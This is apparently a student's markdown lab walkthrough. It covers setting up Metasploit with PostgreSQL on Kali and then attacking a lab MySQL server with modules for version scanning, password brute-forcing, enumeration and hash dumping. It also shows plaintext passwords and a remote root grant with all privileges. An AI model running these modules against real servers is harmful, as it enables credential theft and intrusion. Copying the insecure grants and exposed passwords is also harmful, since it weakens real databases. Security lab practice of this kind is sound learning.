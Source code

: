 # Section 1: 

## In Kali VM: 

- Start PostgreSQL:
  ```bash
  sudo /etc/init.d/postgresql start
  ```
  - Reinstall PostgreSQL if necessary (due to missing database.yml in the directory /usr/share/metasploit-framework/config/database.yml):
    ```bash
    sudo apt install postgresql postgresql
    ```
  - Enable and restart PostgreSQL:
    ```bash
    sudo systemctl enable postgresql
    sudo systemctl restart postgresql
    ```
  - Verify PostgreSQL status:
    ```bash
    sudo systemctl status postgresql
    ```
  - Switch to postgres user and access PostgreSQL:
    ```bash
    sudo su - postgres
    psql -p 5433
    \du   # Check if 'postgres' user exists and is a superuser
    alter user postgres with password 'admin@123';
    \l   # Check for a database named 'postgres'
    
- Start Metasploit
   ```bash
    /etc/init.d/metasploit start # (old method, won't work)
    ```
  - Instead, install Metasploit Framework:
    ```bash
    sudo apt install metasploit-framework
    ```
  -  if **sudo systemctl start metasploit** work do not do the following comands else do this:
      - Verify Metasploit paths:
        ```bash
        which msfconsole
        locate metasploit-framework
        ```
     - Adjust Metasploit service configuration if paths differ:
       ```bash
       sudo nano /etc/systemd/system/metasploit.service
       ```
      <pre>
      ```
      [Unit]
      Description=Metasploit Framework
      After=network.target
      [Service]
      Type=simple
      ExecStart=/usr/local/bin/msfconsole
      User=root
      WorkingDirectory=/usr/local/share/metasploit-framework
      [Install]
      WantedBy=multi-user.target
      ```
      </pre>
  - Now start and check the status of metasploit
    ```bash
    sudo systemctl start metasploit
    sudo systemctl status metasploit
    ```
  - Start Metasploit console and wait for initialization:
    ```bash
    msfconsole
    ```
  - Within the metasploit console run the following:
      - Check database connection status:
        ```bash
        db_status
        ```
      - If not connected, configure database connection:
        ```bash
        db_connect –y /usr/share/metasploit-framework/config/database.yml
        ```
      - If you encounter this error in PostgreSQL configuration:
        ![Local Example](./images/SQL_Injection/cap1.jpg)
         - Do the following :
           ```bash
           sudo nano /etc/postgresql/14/main/postgresql.conf
           ```
            - Uncomment this line :
               ```bash
              # listen_addresses = 'localhost'
               ```
            - Adjust those lines to look like this :
              ```bash
              log_timezone = 'UTC'
              TimeZone = 'UTC'
              ```
            - Also go to this file
              ```bash
              sudo nano /etc/postgresql/14/main/pg_hba.conf
              ```
           - Ensure these lines exist:
             ```bash
             local   all     postgres       peer
             
             local   all     all            peer
             host    all     all            127.0.0.1/32 md5
             ```
           - Restart PostgreSQL:
             ```bash
             sudo systemctl restart postgresql
             ```
           - if there are any other errors try :
             ```bash
             sudo tail -n 50 /var/log/postgresql/postgresql-14-main.log
             ```
      - Update Metasploit database configuration:
        ```bash
        sudo nano /usr/share/metasploit-framework/config/database.yml
        ```
        - Example my configuration:
        <pre>
        development:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
        production:
          adapter: postgresql
          database: msf6
          username: msf6
          password: RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=
          host: localhost
          port: 5432
          pool: 5
          timeout: 5
         </pre>
         
      - Create PostgreSQL database and user for Metasploit:
        ```bash
        sudo su - postgres
        psql -p 5433
        CREATE DATABASE msf6;
        CREATE USER msf6 WITH PASSWORD 'RIbJY72yN0T8mPaYaaT96NRF2b/VNXEjEMFqpxRIuhw=';
        GRANT ALL PRIVILEGES ON DATABASE msf6 TO msf6;
        ```
     - Restart PostgreSQL and Metasploit:
       ```bash
       sudo systemctl restart postgresql
       sudo systemctl restart metasploit
     - Reconnect to Metasploit console and continue:
       ```bash
       msfconsole
       db_connect –y /usr/share/metasploit-framework/config/database.yml
       ```
       ![Local Example](./images/SQL_Injection/cap2.jpg)
       
## In Windows Server VM (MySQL Server)
     
Example commands inside Metasploit console:

- Install MySQL server on Windows Server
- Open terminal and connect to MySQL:
  ```bash
  mysql -u root -p
  ```
- Set up MySQL users and permissions: (192.168.43.93 : is the ip @ of my kali VM , and 'mounaMYSQL19' is my SQL server password)
  ```bash
  CREATE USER 'root'@'192.168.43.93' IDENTIFIED BY 'mounaMYSQL19';  
  GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.43.93';
  FLUSH PRIVILEGES;

## In Kali VM
  
- inside msf console, execute Metasploit commands: ( 192.168.43.189 is the ip @ of my MYSQL server VM)
- 1- 
  ```bash
  use auxiliary/scanner/mysql/mysql_version
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  run
  ```
  ![Local Example](./images/SQL_Injection/cap3.jpg)
- 2-
  ```bash
  use auxiliary/scanner/mysql/mysql_login
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASS_FILE /mouna19/passwords.txt
  run
  ```
  this file contains potential passwords
  ![Local Example](./images/SQL_Injection/cap4.jpg)
  ![Local Example](./images/SQL_Injection/cap5.jpg)
- 3-
  ```bash
  use auxiliary/admin/mysql/mysql_enum
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap6.jpg)
- 4-
  ```bash
  use auxiliary/scanner/mysql/mysql_hashdump
  ```
- inside this console do :
  ```bash
  set RHOSTS 192.168.43.189
  set USERNAME root
  set PASSWORD mounaMYSQL19
  run
  ```
  ![Local Example](./images/SQL_Injection/cap7.jpg)
- Open another terminal window in Kali for MySQL console access:
  ```bash
  mysql -u root -p -h 192.168.43.189
- Enter the password (e.g., mounamySQL19) to access MySQL console.
  ![Local Example](./images/SQL_Injection/cap8.jpg)
  ![Local Example](./images/SQL_Injection/cap9.jpg)
